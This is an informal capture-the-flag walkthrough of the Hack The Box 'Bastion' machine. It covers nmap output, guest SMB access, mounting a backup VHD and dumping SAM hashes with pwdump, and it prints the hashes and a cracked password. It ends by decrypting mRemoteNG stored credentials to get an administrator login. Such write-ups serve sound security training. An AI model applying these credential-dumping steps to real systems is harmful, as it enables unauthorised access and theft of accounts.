








+++

Title = "Bastion-Notes"

+++

so nmap revealed a bunch of stuf smb which allows guest access. inside there we find a clue. Also the directory is writeable. so ill have to try psf.exe

```
# Nmap 7.70 scan initiated Mon May 13 17:33:32 2019 as: nmap -sC -sV -p22,135,139,445,5985,12512 -oA nmap/target 10.10.10.134                                
Nmap scan report for 10.10.10.134
Host is up (0.046s latency).

PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
12512/tcp closed unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                                     

Host script results:
|_clock-skew: mean: -39m52s, deviation: 1h09m14s, median: 5s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-13T23:33:50+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-13 17:33:49
|_  start_date: 2019-05-13 15:37:21

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                               
# Nmap done at Mon May 13 17:33:50 2019 -- 1 IP address (1 host up) scanned in 18.08 seconds 
```

smb enum

null client guest xD no switches needed. using the cmd below we should see allt he writeable share.

```
smbmap -u guest -H 10.10.10.134 -r /
```

well use smbclient to connect to smb. note i don't use any switches this is referred to null 

```
smbclient //10.10.10.134/Backups
```

we found a note.txt, i think this is a note tot us that we do not need to transfer the file to the localhost. Using some command line we can mount the remote drive locally.

```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

WindowsImageBackup is where the backup iamges are that we will be exploiting. these are windows 2008.

this will mount the share to a local directory.

```
mount -o user=guest '//10.10.10.134/Backups' /mnt/bast-vhd 
```

```
cd /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351
```



next install guestmount, if you don't already have it apt-get install guestmount. i used -m flag but i needed to use the --inspector flag. make sure you are in the working directory for the vhd image. make a second mnt directory

```
mkdir /mnt/bast-vhd2
```

```
guestmount --add 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/bast-vhd2 
```

no, took awhile to find what i was looking for in here spent sometime looking for poo strange programs. then i remember this one time i got into someone computer i had access to the filesystem so i found the ntlm hashes. 

We are looking for where ntlm hashes are stored inside windows 2008. which can be found in c:\Windows\System32\config



now i fond a bunch of tools for later use. https://tools.kali.org/password-attacks/creddump

i used pwdump, i also moved the files to my basitonf directory. 

```
pwdump SYSTEM SAM
```


took awhile to figure out to uses these creds with opensshwinx64. administrator password here isn't a known hash so good luck brute forcing it. but l4mpje works fine. ran that users hash at crackstation.com

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::    
```

```
user:	L4mpje
pass:	bureaulampje
```

openssh

```
ssh L4mpje@10.10.10.134
```

once inside here i found mremoteng which i have used in the past for ssh scp type stuff. you can store creds locally etc connection. 

there are a couple different files to choice form and recently they fulled encrypted the file or whatever. but i think the olderback isn't fully encrypted which gives us access to what we need. 



go to file > Open connectionFile



now well add this weird external terminal tool feature to extract the passwords. 

Tools > External Tools

you will notice i already have one done but i added quotes and that tripped me up thought it was apart of the password lol. then i check L4mpje and saw the same quote. this will opena  terminal with the password decrypted yes!!

```
display name :	PassWordLookUp
filename :	cmd
arguements :	/k echo %password%
```



right click on DC > external tool >passwordlookup . it should open a cmd prompt. 



login into ssh with adminsitrator and the password done.

